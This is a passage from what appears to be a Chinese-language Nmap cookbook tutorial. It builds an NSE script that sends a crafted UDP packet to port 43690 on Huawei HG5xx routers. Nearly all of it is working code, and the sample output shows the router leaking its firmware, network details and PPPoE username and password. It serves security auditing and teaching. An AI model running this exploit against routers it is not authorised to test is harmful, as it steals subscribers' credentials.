       payload_h:flush()
      payload_h:close()
      return payload
    end
    ```

    加载 UDP 有效负载
5.  创建创建 NSE 套接字并发送特殊 UDP 数据包的函数：

    ```
    send_udp_payload = function(ip, timeout, payload)
      local data
      stdnse.print_debug(2, "%s:Sending UDP payload", SCRIPT_NAME)
      local socket = nmap.new_socket("udp")
      socket:set_timeout(tonumber(timeout))
      local status = socket:connect(ip, HUAWEI_UDP_PORT, "udp")
      if (not(status)) then return end
      status = socket:send(payload)
      if (not(status)) then return end
      status, data = socket:receive()
      if (not(status)) then
        socket:close()
        return
      end
      socket:close()
      return data
    end
    ```

6.  添加 main 方法，加载并发送 UDP 负载：

    ```
    action = function(host, port)
      local timeout = stdnse.get_script_args(SCRIPT_NAME..".timeout") or 3000
      local payload = load_udp_payload()
      local response = send_udp_payload(host.ip, timeout, payload)
      if response then
        return parse_resp(response)
      end
    end
    ```

7.  您可以使用以下命令运行最终脚本：

    ```
    # nmap -sU -p43690 --script huawei-hg5xx-udpinfo <target>

    ```

易受攻击的设备将返回以下输出：

```
PORT      STATE         SERVICE REASON
-- 43690/udp open|filtered unknown no-response
-- |_huawei5xx-udp-info: |\x10||||||||<Firmware version>|||||||||||||||||||||||||||||||<MAC addr>|||<Software version>||||||||||||||||||||||||||||||||||||||||||||| <local ip>|||||||||||||||||||<remote ip>||||||||||||||||||<model>|||||||||||||||<pppoe user>|||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||<pppoe password>
```
